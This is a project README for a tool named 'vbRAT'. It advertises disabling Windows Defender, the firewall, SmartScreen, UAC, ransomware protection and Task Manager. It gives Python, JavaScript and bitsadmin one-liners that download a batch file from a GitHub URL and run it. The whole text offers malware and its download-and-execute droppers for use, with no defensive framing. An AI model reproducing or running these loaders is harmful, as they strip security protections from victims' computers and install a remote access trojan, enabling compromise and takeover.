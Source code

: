 # vbRAT


---
## Defender disabler 

---
---
## disable defender 
 -  PUAProtection 
 -  Automatic Sample Submission
 -  Windows FireWall
 -  Windows Smart Screen(Permanently)
 -  Disable Quickscan
 -  Add exe file  to exclusions in defender settings
 -  Disable Defender Notification (Added Recently)
 -  Disable UAC(Reboot Required)
 -  Disable Ransomware Protection
 -  Disable TaskManager
 -  Disable registry etc..
---


- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('vbrat.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('vbrat.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat "vbrat.bat"
start vbrat.bat
```

